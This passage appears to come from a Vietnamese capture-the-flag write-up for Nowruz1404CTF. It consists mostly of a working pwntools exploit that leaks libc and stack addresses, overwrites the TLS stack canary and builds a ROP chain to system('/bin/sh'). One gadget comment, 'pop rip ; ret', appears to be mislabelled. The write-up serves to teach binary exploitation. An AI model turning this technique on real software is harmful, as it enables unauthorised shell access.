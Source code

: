 ```python
addEidi(30, b"a" * 8, 0)
viewEidis()

p.recvuntil(b"a" * 8)
leak = u64(p.recv(6).ljust(8, b"\x00"))
libc.address = leak - 0x219380
info(f"Libc base: {hex(libc.address)}")
tls = libc.address - 0x2898  # TLS of canary

# Phase 2: Leak stack buffer

addEidi(22, b"a" * 16, 0)
viewEidis()
p.recvuntil(b"a" * 16)
leak = u64(p.recv(6).ljust(8, b"\x00")) - 0x40

info(f"Leak stack: {hex(leak)}")

# Phase 3: Overwrite canary

for i in range(1, 8):
    offset = tls - leak + i
    payload = b'A' * 136 + b'\x00' + b'\x00' * i
    info(f"Payload: {payload}")
    addEidi(offset, payload, 0)
    p.recvline()

# Phase 4: Exploit get shell

payload = flat(
    b"A" * 136, # buffer
    p64(0), # canary
    p64(0), # save rbp
    p64(libc.address + 0x000000000002882f), # rop: ret
    p64(libc.address + 0x000000000010f75b), # rop: pop rip ; ret
    p64(next(libc.search(b"/bin/sh"))), # /bin/sh
    p64(libc.sym.system) # system call
)

addEidi(256, payload, 0)

p.interactive()
```

![POC](/img/2025/Nowruz1404CTF/{DA5F52FD-A05D-4BFD-9D4D-27301B0CD729}.png)

## Pwn/gogogo

![Description](/img/2025/Nowruz1404CTF/{4199A921-43AE-4A86-900D-09DB93D22392}.png)

Bài này dạng lạ quá nên mình chưa biết solve kiểu gì. Có thời gian mình sẽ tìm writeup và nghiên cứu lại.
